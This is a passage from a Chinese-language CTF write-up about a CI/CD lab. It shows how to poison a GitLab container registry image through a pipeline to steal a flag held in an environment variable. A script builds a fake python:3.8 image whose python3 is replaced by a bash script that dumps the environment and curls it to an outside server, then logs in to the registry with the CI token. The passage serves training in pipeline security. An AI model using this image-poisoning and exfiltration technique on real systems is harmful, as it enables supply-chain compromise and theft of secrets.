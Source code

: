 ```plain
```

最后会 build 当前的 dockerfile 并构建容器，flag11 是这个 web 容器中的环境变量。而 nest-of-gold 的 dockerfile 中拉取的镜像是 gitlab 仓库中的：

```plain
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```

因此利用 awesome-app 的 pipeline 执行我们注入的恶意代码，即将恶意的镜像推送到 gitlab，从而污染了 image，实现 flag 的盗取。

修改 greet.py 的内容，执行将获取 flag 的命令来替代镜像中的 python3 命令。官方 wp 里的不太对，官方的命令在执行`RUN pip3 install -r requirements.txt`的时候就会 curl，但是这个时候 flag 还没有注入到环境中，而且

```plain
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/python3.bak
RUN mv /usr/local/bin/pip3 /usr/local/bin/pip3.bak
COPY pip3 /usr/local/bin/pip3
"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env > /tmp/flag.txt;
curl http://10.207.127.144:39502/ -F file=@/tmp/flag.txt
"""
PIP3 ="""#!/bin/bash
/usr/local/bin/pip3.bak install -r requirements.txt
mv /usr/local/bin/python3.bak /usr/local/bin/python3
"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    with open('pip3','w') as f:
        f.write(PIP3)
    # Grant our script execution permission
    run('chmod +x python3')
    run('chmod +x pip3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
```